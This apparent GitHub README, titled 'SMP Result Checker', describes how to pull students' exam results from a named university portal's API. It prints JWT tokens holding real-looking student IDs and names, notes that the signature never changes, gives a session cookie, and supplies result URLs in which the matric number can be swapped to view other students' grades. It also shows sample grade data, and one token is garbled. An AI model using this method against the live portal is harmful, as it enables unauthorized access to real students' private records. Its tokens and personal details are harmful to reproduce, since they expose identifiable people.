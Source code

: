 # SMP Result Checker

_Last Update: 20/06/2024_

## License

BOMBTIMECS C0. License

Copyright (c) 2024 S.I.F.A.R

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

---

## Web Application Security Payloads and Bypasses

Feel free to improve with your payloads and techniques! I :heart: pull requests :)

> [!CAUTION]
> Strictly use for internal testing and improving. We do not harm servers or anything.

> [!IMPORTANT]
> ## Reference
> * [JSON Web Signature (JWS)](https://datatracker.ietf.org/doc/html/rfc7515)
> * [Uniform Resource Identifier (URI): Generic Syntax](https://datatracker.ietf.org/doc/html/rfc3986)

### Web URL (Request Method)

```http
POST https://smp.ums.edu.my/api/result/GetResultV2 HTTP/1.1 --> 200 (for success)
```

### Authorisation (JSON)

> **IMPORTANT**
> ## Online Decoder
> * [JWT Decoder](http://calebb.net/)
> * [BASE64 Decoder](https://www.base64decode.org/)

#### JWT Parse

```javascript
function parseJwt (token) {
    var base64Url = token.split('.')[1];
    var base64 = base64Url.replace(/-/g, '+').replace(/_/g, '/');
    var jsonPayload = decodeURIComponent(window.atob(base64).split('').map(function(c) {
        return '%' + ('00' + c.charCodeAt(0).toString(16)).slice(-2);
    }).join(''));
    return JSON.parse(jsonPayload);
}
```

### Antitempered Signature (Public Key)

```
ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SnVZVzFsYVdRaU9pSkNTekU1TVRFd01URTVJaXdpYVhCaFpHUnlJam9pTVRBdU1URTFMamczTGpFd055SXNJbkp2YkdVaU9pSXdNeUlzSW01aVppSTZNVFk0TkRJd09EZzJPU3dpWlhod0lqb3hOamcwTWpFeU5EWTVMQ0pwWVhRaU9qRTJPRFF5TURnNE5qa3NJbWx6Y3lJNkluVnRjeTVsWkhVdWJYa2lMQ0poZFdRaU9pSXFJbjAuNW9WdXUtRGUyOEhHV2E0LXMycTROeTEteU9EdU1FeUFiUTJkaVRfMlc2VQ==
```

Antitempered Signature: 

```
ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SnVZVzFsYVdRaU9pSkNVREU1TVRFd01EVTJJaXdpYVhCaFpHUnlJam9pTVRBdU1URTFMamt6TGpFMElpd2ljbTlzWlNJNklqQXpJaXdpYm1KbUlqb3hOamcxTlRreE56SXlMQ0psZUhBaU9qRTJPRFUxT1RVek1qSXNJbWxoZENJNk1UWTROVFU1TVRjeU1pd2lhWE56SWpvaWRXMXpMbVZrZFM1dGVTSXNJbUYxWkNJNklpb2lmUS5ZQmlHa3NfdEduRUhSek1OeUNobzRMOUVVRlNVWGhnUTVJeFhXTHZUSmF3
```

* JWT (Token)/Header

```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
{"typ":"JWT","alg":"HS256"}
```

* Claim Set/Payload

```json
eyJVc2VySUQiOiJCSzE5MTEwMTE5IiwiVXNlck5hbWUiOiJBTUlSQSBOQVRBU0hBIFNISVJMSU4gQklOVEkgSkFBRlJFIn0 
{"UserID":"BK19110119","UserName":"AMIRA NATASHA SHIRLIN BINTI JAAFRE"}
```

* Signature (needs to be the same as antitempered signature)

```
WcZi65WDnWfIlFopYu2E4oN3AO_gNNM_A927V-m_OVc
```

* Format

```
[jwt/header].[claim set/payload].[signature]
```

#### Examples

1.
```
-eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJVc2VySUQiOiJCSzE5MTEwMTE5IiwiVXNlck5hbWUiOiJBTUlSQSBOQVRBU0hBIFNISVJMSU4gQklOVEkgSkFBRlJFIn0.WcZi65WDnWfIlFopYu2E4oN3AO_gNNM_A927V-m_OVc
-eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJVc2VySUQiOiJCSzE5MTEwMTE5IiwiVXNlck5hbWUiOiJBTUlSQSBOQVRBU0hBIFNISVJMSU4gQklOVEkgSkFBRlJFIn0.WcZi65WDnWfIlFopYu2E4oN3AO_gNNM_A927V-m_OVc
```

The signature is the same and does not change with every login.

2.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJVc2VySUQiOiJCUDE5MTEwMDU2IiwiVXNlck5hbWUiOiJOVVIgS0hBSVJVTk5JU0FcdTAwMjcgQklOVEkgU0FaQUxJIn0.inQ1VPeCKEog6010ayG94uQ21_dDaAbn-MbdfDKW04o
{typ: "JWT",alg: "HS256"}.{UserID: "BP19110056",UserName: "NUR KHAIRUNNISA\u0027 BINTI SAZALI"}.[signature]
```

3.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJVc2VySUQiOiJCUDE5MTEwMDU2IiwiVXNlck5hbWUiOiJOVVIgS0hBSVJVTk5JU0FcdTAwMjcgQklOVEkgU0FaQUxJIn0.inQ1VPeCKEog6010ayG94uQ21_dDaAbn-MbdfDKW04o
{typ: "JWT",alg: "HS256"}.{UserID: "BP19110056",UserName: "NUR KHAIRUNNISA\u0027 BINTI SAZALI"}.[signature]
```

4.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJVc2VySUQiOiJCSzE5MTEwMDk2IiwiVXNlck5hbWUiOiJOVVIgQU1BTkkgQkFMUUlTIEJJTlRJIEFETkFOIn0.R7oaYF4OazAoI1vYriOrLrGY0t5LBcuWDv9Rr0D-pKE
{typ: "JWT",alg: "HS256"}.{UserID: "BK19110096",UserName: "NUR AMANI BALQIS BINTI ADNAN"}.[signature]
```
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.e1VzZXJJRDogIkJLMTkxMTAwOTMiLFVzZXJOYW

1lOiJOT1IgQU1BTkkgQkFMUUlTIEJJTlRJIEFETkFOIi5YmdFNHZbFaMNgoyvXXLM6X_2v4JH3M
{typ: "JWT",alg: "HS256"}.{UserID: "BK19110093",UserName: "NUR AMANI BALQIS BINTI ADNAN"}.[signature]
```

### Cookie

```
dashboard=default; 
SysCulture=en-AU; 
ASP.NET_SessionId=a45zzajkhspz0k5jrc3sqg1o; 
ARRAffinity=5b3f8a12403b9dc2b986729a83bf573dfabff49059ab229ec52134ff3910c818; 
c_jwt_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJVc2VySUQiOiJCSzE5MTEwMTE5IiwiVXNlck5hbWUiOiJBTUlSQSBOQVRBU0hBIFNISVJMSU4gQklOVEkgSkFBRlJFIn0.WcZi65WDnWfIlFopYu2E4oN3AO_gNNM_A927V-m_OVc
```

### Print Button JS Request

#### Web Request

```http
https://smp.ums.edu.my/api/result/PrintResultBMVersion?Nomatrik=BK19110096&KodSesiSem=1-2019/2020&KatPel=02&KodProgram=HA20
```

---

## Data Acquired (JSON)

```json
{
  "isdebt": false,
  "getSesiLatest": "1-2022/2023",
  "result_type": "pra_normal",
  "result": [
    {
      "SMP07_KodMP": "KS30903",
      "SMP17_Gred": "C",
      "SMP17_MNilaian": 2.0,
      "SMP07_NamaBI": "MEASUREMENT AND INSTRUMENTATION",
      "SMP07_Kredit": 3,
      "SMP01_Nomatrik": "BK19110287",
      "KodSesi_Sem": "1-2022/2023",
      "SMP11_Status": "UM1",
      "Nilai": "LULUS"
    },
    {
      "SMP07_KodMP": "KS32503",
      "SMP17_Gred": "C+",
      "SMP17_MNilaian": 2.33,
      "SMP07_NamaBI": "EMBEDDED SYSTEMS",
      "SMP07_Kredit": 3,
      "SMP01_Nomatrik": "BK19110287",
      "KodSesi_Sem": "1-2022/2023",
      "SMP11_Status": "UM1",
      "Nilai": "LULUS"
    }
  ]
}
```

## Testing Site

Use this code in the HTML document file at the suitable place:

```html
<a id="ctl00_cph_SecuredPage_ctrl_SlipPeperiksaanPelajar_btnCetak" class="btn btn-primary" usesubmitbehavior="false" href="javascript:__doPostBack('ctl00$cph_SecuredPage$ctrl_SlipPeperiksaanPelajar$btnCetak','')">Cetak</a>
```

### Testing Links

**Note:** Ensure you are logged in before accessing these links. If you encounter authorization errors, re-login and check the cookies.

```http
https://smp.ums.edu.my/api/result/PrintResultBMVersion?Nomatrik=BK19110097&KodSesiSem=1-2022/2023&KatPel=02&KodProgram=HK20
```

If you see the following error, your session has expired:

```json
{"Message":"[ERR5]: You are not authorized to access the page.Your Session Is expired.Please re-login for further action"}
```

---

> [!WARNING]

> Ensure that students and staff change their passwords regularly to avoid misuse. There has been a data leak affecting over 58K records due to misuse or misleading port configurations.

---

## References

* [JSON Web Signature (JWS)](https://datatracker.ietf.org/doc/html/rfc7515)
* [Uniform Resource Identifier (URI): Generic Syntax](https://datatracker.ietf.org/doc/html/rfc3986)
* [JWT Decoder](http://calebb.net/)
* [BASE64 Decoder](https://www.base64decode.org/)
